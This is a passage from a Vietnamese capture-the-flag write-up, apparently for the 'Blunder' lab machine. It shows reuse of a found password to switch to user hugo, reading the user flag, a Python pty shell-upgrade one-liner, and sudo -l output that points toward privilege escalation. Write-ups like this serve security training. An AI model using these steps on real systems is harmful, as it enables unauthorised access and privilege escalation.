 `Hugo:Password120`
### Lateral Movement
Di chuyển sang user Hugo
```
su Hugo
su: user Hugo does not exist
su hugo
Password: Password120
whoami
hugo
```
Từ đây ta có thể lấy được `user.flag`
```
cd /home/hugo
cd Desktop
ls
dir
pwd
/home/hugo/Desktop
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
user.txt
Videos
cat user.txt
efa60e91be2d7dc8cc64******
```
# Root flag
## Exploit
### sudo -l
Kiểm tra quyền bằng lệnh sau 
```
sudo -l
sudo: no tty present and no askpass program specified
```
Lỗi này xuất hiện vì khi sudo trong một môi trường không có quyền truy cập vào TTY (như khi chạy trong một script không tương tác hoặc qua một hệ thống tự động hóa), sudo không thể yêu cầu mật khẩu từ người dùng. sudo thường yêu cầu mật khẩu qua TTY để xác thực quyền truy cập.

Để khắc phục ta dùng lệnh 
```
python -c 'import pty;pty.spawn("/bin/bash")'
hugo@blunder:~$ 
```
Sử dụng lại sudo -l 
```
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```